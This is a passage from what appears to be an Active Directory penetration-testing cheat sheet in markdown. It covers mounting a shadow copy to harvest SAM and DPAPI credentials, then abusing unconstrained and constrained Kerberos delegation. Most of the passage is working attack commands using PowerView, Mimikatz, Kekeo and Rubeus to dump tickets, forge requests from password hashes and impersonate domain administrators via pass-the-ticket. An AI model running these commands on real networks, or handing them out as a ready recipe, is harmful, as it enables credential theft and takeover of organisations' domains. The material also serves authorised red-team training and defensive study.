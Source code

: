 ```
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```
1) You can dump the backuped SAM database and harvest credentials.
2) Look for DPAPI stored creds and decrypt them.
3) Access backuped sensitive files.
### List and Decrypt Stored Credentials
   [DPAPI all the things](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials)
### Unconstrained Delegation

*WUT IS DIS ?: If we have Administrative access on a machine that has Unconstrained Delegation enabled, we can wait for a 
high value target or DA to connect to it, steal his TGT then ptt and impersonate him!*

Using PowerView:
```
#Discover domain joined computers that have Unconstrained Delegation enabled
Get-NetComputer -UnConstrained

#List tickets and check if a DA or some High Value target has stored its TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets"'

#Command to monitor any incoming sessions on our compromised server
Invoke-UserHunter -ComputerName <NameOfTheComputer> -Poll <TimeOfMonitoringInSeconds> -UserName <UserToMonitorFor> -Delay   
<WaitInterval> -Verbose

#Dump the tickets to disk:
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

#Impersonate the user using ptt attack:
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTicket>"'
```
**Note:** We can also use Rubeus!

### Constrained Delegation

Using PowerView and Kekeo:
```
#Enumerate Users and Computers with constrained delegation
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

#If we have a user that has Constrained delegation, we ask for a valid tgt of this user using kekeo
tgt::ask /user:<UserName> /domain:<Domain's FQDN> /rc4:<hashedPasswordOfTheUser>

#Then using the TGT we have ask a TGS for a Service this user has Access to through constrained delegation
tgs::s4u /tgt:<PathToTGT> /user:<UserToImpersonate>@<Domain's FQDN> /service:<Service's SPN>

#Finally use mimikatz to ptt the TGS
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTGS>"'
```
*ALTERNATIVE:*
Using Rubeus:
```
Rubeus.exe s4u /user:<UserName> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<UserToImpersonate> /msdsspn:"<Service's SPN>" /altservice:<Optional> /ptt
```
Now we can access the service as the impersonated user!
